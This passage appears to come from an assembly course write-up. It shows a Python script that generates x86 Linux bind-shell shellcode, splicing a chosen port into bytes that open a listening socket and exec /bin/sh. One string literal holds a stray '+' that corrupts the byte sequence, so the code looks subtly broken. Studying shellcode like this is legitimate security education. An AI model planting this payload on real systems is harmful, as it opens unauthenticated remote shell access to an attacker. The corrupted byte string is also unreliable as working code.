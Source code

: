 

## Execution ##

On the first terminal:

<a href="../assets/images/ass1_f1.png"><img src = "../assets/images/ass1_f1.png"></a>

On the second terminal:

<a href="../assets/images/ass1_f2.png"><img src = "../assets/images/ass1_f2.png"></a>

## Allow port keying in ##

At this stage, we’ll use a python script.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Bind TPC shell")
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port number", required=True)
    args = parser.parse_args()
    port = args.port

    shellcode="\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68"+struct.pack("!H",port)+"\x66\x53\x89\xe1\x6a+\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```
